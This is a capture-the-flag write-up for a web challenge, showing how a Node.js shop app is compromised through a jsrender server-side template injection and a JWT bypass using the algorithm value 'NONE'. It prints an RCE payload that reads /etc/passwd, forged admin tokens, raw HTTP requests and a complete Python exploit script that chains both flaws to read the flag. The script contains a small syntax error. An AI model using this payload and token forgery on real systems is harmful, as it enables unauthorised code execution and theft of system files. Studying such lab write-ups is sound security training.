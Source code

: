 ## Didactic Octo Paddle :: Medium

#### Scenario

```
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river.
You must hack into the paddle shop's system to obtain information on the relic's location.
Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
```

#### Solve

![](/images/didactic-source-tree.png)

The challenge begins with a login prompt.  

![](/images/didactic-login.png)

While looking at the routes defined in the `index.js` file, we stumble upon a `/register` route that let's us create a user.  

![](/images/didactic-register.png)

We create a user.  

![](/images/didactic-user-created.png)

We can then login and see the store:  

![](/images/didactic-webshop.png)

It seems like they're selling litteral paddles.  
It is a webshop.  

##### Obtaning RCE

There is an admin page at `/admin`, this page seems to list the existing users.  

Here is the code of the `admin.jsrender` file:  

```html
<!DOCTYPE html>
<html lang="en">

	<!--- //snip // --->

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
    </ul>
  </div>
</body>

</html>
```

Here is the code for the `/admin` route.  

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

There is actually an SSTI vulnerability here.  
The `jsrender.templates` function templates the given string.  
This can actually lead to RCE as detailed in this article:  

- https://appcheck-ng.com/template-injection-jsrender-jsviews
- https://www.jsviews.com/#htmltag

```http
POST /register HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.143.81:30500/register
Content-Type: application/json
Origin: http://138.68.143.81:30500
Content-Length: 40
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MTQ5NDYyLCJleHAiOjE2NzkxNTMwNjJ9.0_s2fX-jd31nc6fNFQwRZktx-UQm9GnBxK8CvsOct2k

{"username":"{{:7*7}}","password":"gh0st"}
```

This request will cause 49 to appear on the admin's page.  
Now, one question arises, is admin a bot or do we have to elevate ?  

```javascript
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

This works, it gets RCE on my local instance.  
Now time to figure out the admin situation.  

##### Obtaining Admin

While reading the source for `AdminMiddleware.js`, I found a weird condition on the JWT's `alg` value.  
Here is the condition:  

```javascript
// alg == none --> Login
// alg == HS256 --> decode with secret
// else --> Just decode i guess ?

    if (decoded.header.alg == 'none') {
        return res.redirect("/login");
    } else if (decoded.header.alg == "HS256") {
        const user = jwt.verify(sessionCookie, tokenKey, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res.status(403).send("You are not an admin");
        }
    } else {
        const user = jwt.verify(sessionCookie, null, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res
                .status(403)
                .send({ message: "You are not an admin" });
        }
    }
```

Maybe I can dodge signature validation ?  

Something like a default value for it, or specifying an unsafe algorithm.  

While tinkering with this condition locally, I found an authentication bypass.  

The condition is that the `decoded.header.alg` value equals the string `'none'`.  
There could be a way to bypass this, if the underlying library normalizes the `alg` values coming in the `verify` function.  

This is how we bypass it, we simply specify the `alg` as `'NONE'` instead.  
This goes through to the `else`, which decodes the value and treats the token as valid.  

Using this, we can craft an administrator token.  

Here is our JWT:  

```json
{"alg":"NONE","typ":"JWT"}{"id":1,"iat":1679153124,"exp":1679156724}
```

`alg`: `"NONE"` will bypass the condition.  
`id`: 1 represents the administrator user.  

We encode it: 
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.
```

HERE WE GOOOOO:
```http
GET /admin HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.;
Upgrade-Insecure-Requests: 1

```
  
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1020
Date: Fri, 24 Mar 2023 01:45:03 GMT
Connection: close

<!DOCTYPE html>

//snip //
```

Now that we can visit the admin page, we put it all together and create a malicious user to extract the flag.  

#### Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://127.0.0.1:1337
ADMIN_ENDPOINT = "/admin"
AUTH_BYPASS_SESSION = "eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9."
REGISTER_ENDPOINT = "/register"
JSRENDER_SSTI = \
        "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}"


if __name__ == "__main__":
    s = requests.Session()
    r = requests.post(TARGET + REGISTER_ENDPOINT, json={"username": JSRENDER_SSTI, "password": "O0ops"})
    s.cookies.set("session", AUTH_BYPASS_SESSION, domain="127.0.0.1")
    flag = s.get(TARGET + ADMIN_ENDPOINT)
    print(flag.text)
```

